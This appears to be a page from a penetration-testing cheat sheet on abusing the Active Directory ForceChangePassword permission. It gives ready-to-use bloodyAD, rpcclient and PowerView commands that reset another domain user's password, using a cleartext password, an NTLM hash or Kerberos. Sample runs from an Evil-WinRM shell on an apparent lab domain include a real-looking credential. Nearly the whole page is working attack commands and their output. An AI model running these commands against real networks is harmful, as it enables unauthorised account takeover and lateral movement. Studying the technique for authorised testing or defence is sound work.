 ```yaml
---
title: "ForceChangePassword"
date: 2024-7-18
tags: ["Forcechangepassword", "Powerview", "Active Directory", "Windows", "bloodyAD"]
---
```


### Change Target User Password (From Linux)

{{< tab set1 tab1 >}}BloodyAD{{< /tab >}}
{{< tab set1 tab2 >}}rpcclient{{< /tab >}}
{{< tabcontent set1 tab1 >}}

```console
# Password
bloodyAD -d <DOMAIN> -u '<USER>' -p '<PASSWORD>' --host <DC> set password '<TARGET_USER>' '<NEW_PASSWORD>'
```

```console {class="sample-code"}
bloodyAD -d object.local -u oliver -p 'c1cdfun_d2434' --host jenkins.object.local set password smith 'Test1234'
[+] Password changed successfully!
```

```console
# NTLM
bloodyAD -d <DOMAIN> -u '<USER>' -p ':<HASH>' -f rc4 --host <DC> set password '<TARGET_USER>' '<NEW_PASSWORD>'
```

```console
# Kerberos
bloodyAD -d <DOMAIN> -u '<USER>' -p '<PASSWORD>' -k --host <DC> set password '<TARGET_USER>' '<NEW_PASSWORD>'
```

<small>*Ref: [bloodyAD](https://github.com/CravateRouge/bloodyAD)*</small>

{{< /tabcontent >}}
{{< tabcontent set1 tab2 >}}

```console
rpcclient -U '<DOMAIN>/<USER>%<PASSWORD>' <TARGET> -c 'setuserinfo2 <TARGET_USER> 23 <NEW_PASSWORD>'
```

```console {class="sample-code"}
$ rpcclient -U 'object.local/oliver%c1cdfun_d2434' 10.10.11.132 -c 'setuserinfo2 smith 23 Test1234'
```

{{< /tabcontent >}}

### Change Target User Password (From Windows)

{{< tab set2 tab1 >}}Windows{{< /tab >}}
{{< tabcontent set2 tab1 >}}

#### 1. Import PowerView

```console
. .\PowerView.ps1
```

```console {class=sample-code}
*Evil-WinRM* PS C:\programdata> . .\PowerView.ps1
```

#### 2. Create a Cred Object (runas) \[Optional\]

```console
$username = '<DOMAIN>\<USER>'
```

```console
$password = ConvertTo-SecureString '<PASSWORD>' -AsPlainText -Force
```

```console
$cred = new-object -typename System.Management.Automation.PSCredential -argumentlist $username, $password
```

#### 3. Change Target User Password

```console
$password = ConvertTo-SecureString '<NEW_PASSWORD>' -AsPlainText -Force
```

```console {class=sample-code}
*Evil-WinRM* PS C:\programdata> $password = ConvertTo-SecureString 'Test1234' -AsPlainText -Force
```

```console
Set-DomainUserPassword -Identity <TARGET_USER> -AccountPassword $password -Credential $Cred
```

```console {class=sample-code}
*Evil-WinRM* PS C:\programdata> Set-DomainUserPassword -Identity gibdeon -AccountPassword $password
```

{{< /tabcontent >}}
